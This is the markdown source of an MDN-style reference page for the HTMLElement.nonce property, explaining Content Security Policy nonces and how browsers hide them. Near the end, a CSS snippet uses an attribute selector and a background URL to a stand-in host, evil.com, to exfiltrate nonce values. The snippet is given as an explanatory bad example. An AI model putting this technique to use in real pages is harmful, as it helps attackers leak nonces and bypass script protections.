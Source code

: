 ```yaml
---
title: HTMLElement.nonce
slug: Web/API/HTMLElement/nonce
page-type: web-api-instance-property
tags:
  - API
  - Content Security Policy
  - HTML DOM
  - HTMLElement
  - Property
  - Reference
  - nonce
browser-compat: api.HTMLElement.nonce
---
```


{{APIRef("HTML DOM")}}

The **`nonce`** property of the {{DOMxRef("HTMLElement")}} interface returns the cryptographic number used once that is used by [Content Security Policy](/en-US/docs/Web/HTTP/CSP) to determine whether a given fetch will be allowed to proceed.

In later implementations, elements only expose their `nonce` attribute to scripts (and not to side-channels like CSS attribute selectors).

## Examples

### Retrieving a nonce value

In the past, not all browsers supported the `nonce` IDL attribute, so a workaround is to try to use [`getAttribute`](/en-US/docs/Web/API/Element/getAttribute) as a fallback:

```js
let nonce = script['nonce'] || script.getAttribute('nonce');
```

However, recent browsers version hide `nonce` values that are accessed this way (an empty string will be returned). The IDL property (`script['nonce']`) will be the only way to access nonces.

Nonce hiding helps prevent attackers from exfiltrating nonce data via mechanisms that can grab data from content attributes like this:

```css example-bad
script[nonce~=whatever] {
  background: url("https://evil.com/nonce?whatever");
}
```

## Specifications

{{Specifications}}

## Browser compatibility

{{Compat}}

## See also

- [`nonce` global attribute](/en-US/docs/Web/HTML/Global_attributes/nonce)
- [Content Security Policy](/en-US/docs/Web/HTTP/CSP)
- CSP: {{CSP("script-src")}}
